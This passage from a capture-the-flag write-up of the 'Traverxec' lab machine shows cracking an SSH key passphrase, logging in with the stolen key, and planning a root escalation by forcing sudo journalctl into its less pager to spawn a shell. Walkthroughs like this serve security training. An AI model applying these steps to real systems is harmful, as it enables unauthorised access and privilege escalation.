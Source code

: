 ```bash
1g 0:00:00:03 26.33% (ETA: 19:18:56) 0.3311g/s 1307Kp/s 1307Kc/s 1307KC/s schwedt92..schweaty
1g 0:00:00:11 DONE (2019-12-07 19:18) 0.08726g/s 1251Kp/s 1251Kc/s 1251KC/sa6_123..*7¡Vamos!
Session completed
```
Succesfully cracked. 
## User Shell
Lets try to `ssh` into the box using the private key
```bash
root@kali:~/Desktop/traverxec/home/david/.ssh# ssh david@10.10.10.165 -i /root/Desktop/traverxec/home/david/.ssh/id_rsa
Enter passphrase for key '/root/Desktop/traverxec/home/david/.ssh/id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sat Dec  7 08:30:27 2019 from 10.10.15.12
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt
7db0b484***********************
```

And we have a user shell

## Privilege Escalation
There is an interesting file named `server-stats.sh` in `/bin` directory. Lets see what it does.   
Running the `server-stats.sh` just prints out some log using `journalctl` and then exits.
```bash
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```
The last line looks suspicious and its being run as `root`. So we gain root access if we can somehow exploit it.
After bit of searching around, I found this `journalctl` [vulnerability.](https://gtfobins.github.io/gtfobins/journalctl/)

## Root Shell

So the command `usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` prints out the log and exits. But we can't exploit it because `journalctl` exits right after printing.
Our aim is to launch a shell from within the `journalctl` command. Journalctl uses `less` command by default to view the log. So we have to find a way to prevent the command from exiting. The trick can be found in the `journalctl` man page. 
```bash
man journalctl | grep width -B 1 -A 2

        The output is paged through less by default, and long lines are "truncated" to screen width. 
        The hidden part can be viewed by using the left-arrow and right-arrow
        keys. Paging can be disabled; see the --no-pager option and the "Environment" section below.
```
So if we run this command in a small resized window, it won't exit after printing the log and then we can spawn a shell as `root` user.
